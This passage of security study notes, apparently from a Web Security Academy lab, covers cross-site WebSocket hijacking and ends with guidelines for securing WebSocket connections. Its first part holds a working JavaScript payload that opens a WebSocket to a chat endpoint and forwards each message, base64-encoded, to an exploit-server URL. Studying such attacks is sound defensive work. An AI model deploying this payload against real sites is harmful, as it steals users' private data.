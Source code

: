 ```javascript
<script>
var ws = new WebSocket(
    "wss://0aa800ec03b36bde8016e900007e0039.web-security-academy.net/chat"
);
ws.onopen = function() {
    ws.send("READY")
}
ws.onmessage = function(event) {
    fetch(
        "https://exploit-0aa9001403866bd6807ae8e501f60039.exploit-server.net/exploit?message=" + btoa(event.data)
    );
};
</script>
```

- If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:

	- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
	- Sending WebSocket messages to retrieve sensitive data.
	- Sometimes, just waiting for incoming messages to arrive containing sensitive data.
## How to secure a WebSocket connection

- To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:

1. Use the wss:// protocol (WebSockets over TLS).
2. Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
3. Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
4. Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and cross-site scripting.